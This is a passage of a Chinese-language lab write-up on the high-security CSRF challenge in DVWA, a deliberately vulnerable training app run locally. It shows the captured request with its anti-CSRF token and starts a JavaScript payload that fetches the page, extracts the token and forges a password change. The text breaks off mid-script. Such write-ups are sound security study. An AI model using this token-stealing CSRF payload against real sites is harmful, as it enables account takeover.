 # Cross Site Request Forgery (CSRF)

### 觀察

根據提示這次有加了 user token


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/bbd23ae6-2623-4e0d-a58b-d759a1708d0e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070041Z&X-Amz-Expires=86400&X-Amz-Signature=f8b7eaa984a0dd32ed39d29c60aad1ca56351d8636ed0ee01c6ab6a099888aba&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

觀察 request 後發現它在參數後面也多加了 `user_token`

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/81dc0204-0388-4e0c-8a5f-c9f338465d5b/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070057Z&X-Amz-Expires=86400&X-Amz-Signature=b4ef4da76636444ed6ddb403098c1aa56fb690d5192c5950b72aab135ee3aedb&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```json
{
	"GET": {
		"scheme": "http",
		"host": "dvwa.localtest",
		"filename": "/vulnerabilities/csrf/",
		"query": {
			"password_new": "123",
			"password_conf": "456",
			"Change": "Change",
			"user_token": "afb43b5a4caf4e9eb101a2a814598fa3"
		},
		"remote": {
			"Address": "127.0.0.1:80"
		}
	}
}
```

這題主要的阻礙就是必須提前拿到 user_token，但這如果只透過我們提供的惡意頁面很難一步達成，因此必須思考如何拿到 token 之後再送出 CSRF 攻擊

如果要搭配 XSS 攻擊的話，那也許可以在該頁面想辦法插入 script，但可惜的是這題頁面好像沒有地方可以注入 XSS (也許有，但我目前沒辦法輕易做到 QQ)

那如果用 sql injection 或 command injection 搭配呢? 用 sqlmap 掃也沒掃到，可能要手動測試試試看，但想到這就有點懶，只好先躺平一下

參考其他人的 writeup 後，看到不少人是利用 DVWA 其他頁面的 XSS 來攻擊，也有人乾脆直接將惡意頁面 upload 😶‍🌫️

### CSRF + XSS

在 token 和同源政策這兩個限制之下，必須要在目標網站上分兩階段攻擊:

1. 先埋好 XSS or 惡意腳本
2. 讓受害者觸發 CSRF

那我們就來試試看可不可行

先準備 XSS 攻擊使用的 script

`csrf.js`

```jsx
var xhr = new XMLHttpRequest(),
  method = 'GET',
  url = 'http://dvwa.localtest/vulnerabilities/csrf/'

xhr.open(method, url, true)
xhr.onreadystatechange = function () {
  if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
    console.log(xhr.responseText)
    const csrfPage = xhr.responseText
    const token = csrfPage.match(/'user_token' value='(.*)'/i)[1]
    const password = 4444
    const url = `http://dvwa.localtest/vulnerabilities/csrf/?password_new=${password}&password_conf=${password}&Change=Change&user_token=${token}`
    const xhrUpdatePwd = new XMLHttpRequest()
```